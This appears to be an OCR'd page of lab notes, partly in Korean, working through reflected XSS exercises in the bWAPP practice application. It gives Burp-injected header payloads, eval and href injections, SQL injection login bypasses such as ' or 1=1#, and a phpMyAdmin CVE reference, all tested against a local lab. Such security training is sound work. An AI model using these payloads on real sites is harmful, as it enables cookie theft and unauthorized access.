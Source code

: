 intercept on
	Referer : '';alert(document.cookie);''"
## XSS - Reflected(Referer)
### security : low
burp suite
intercept on
	Referer : xss_back_button.php';alert(document.cookie);'
## XSS - Reflected(Custom Header)
### security : low
Content of our bWAPP header:
burp suite
intercept on
	bWAPP: testhead 추가
Content of our bWAPP header: testhead
## XSS - Reflected(Eval)
### security : low
xss_eval.php?date=alert(document.cookie)
	XSS 공격 가능
## XSS - Reflected(HREF)
### security : low
`<a href ~ &action_vote>Vote 이므로
`><script>alert("Hack")</script>
## XSS - Reflected(Login Form)
### security : low
Login : ' or 1=1#
Password : ' or 1=1 -- 
	Welcome Neo
	Your secret: Oh Why Didn't I Took That BLACK Pill?
Login : `'; <script>alert(document.cookie)</script>
Password : 1234
	스크립트 실행 확인
	SQL syntax 에러 확인
## XSS - Reflected(phpMyAdmin)
### security : low
BBcode
CVE-2010-4480
http://192.168.56.143/phpmyadmin/error.php?error=test
	test 출력
sudo vi /var/www/bWAPP/get_cookie.html
`<html>
	`<head>
		`<script>
			alert(document.cookie)
		`</script>
	`</head>
`</html>
